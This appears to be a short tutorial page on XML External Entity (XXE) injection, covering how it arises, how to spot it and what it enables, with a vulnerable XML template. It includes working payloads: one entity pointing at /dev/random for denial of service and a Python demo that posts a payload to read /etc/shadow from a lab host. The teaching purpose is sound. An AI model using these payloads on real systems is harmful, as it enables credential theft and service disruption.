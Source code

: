 
### What is External XML Entity Injection?

* An XML External Entity (XXE) attack is a type of attack against an application that parses XML input


### When does XXE occur?

* This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser.


### Identifying XXE

* The application parses XML documents.
* Tainted data is allowed within the system identifier portion of the entity, within the document type declaration (DTD).
* The XML processor is configured to validate and process the DTD.
* The XML processor is configured to resolve external entities within the DTD.


### What can you do with XXE?

* Attacks can include disclosing local files
* Denial of Service
* Pivot to other internal systems


### XXE Attack Example


#### Vulnerable Code

```Javascript
<?xml version="1.0" encoding="ISO-8859-1"?>
<person>
	<firstname> + firstname + </firstname>
	<lastname> + lastname + </lastname>
</person>
```


#### XXE Attack

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE formname [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///dev/random" >]><foo>&xxe;</foo>
```


#### XXE Demo

Note:
```Python
import requests
xml = '''<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE person [<!ENTITY file SYSTEM "file:///etc/shadow" >]><person><firstname>lol</firstname><lastname>&file;</lastname></person>'''
r = requests.post("http://10.13.37.5", data={'data' : xml})
print(r.text)
```
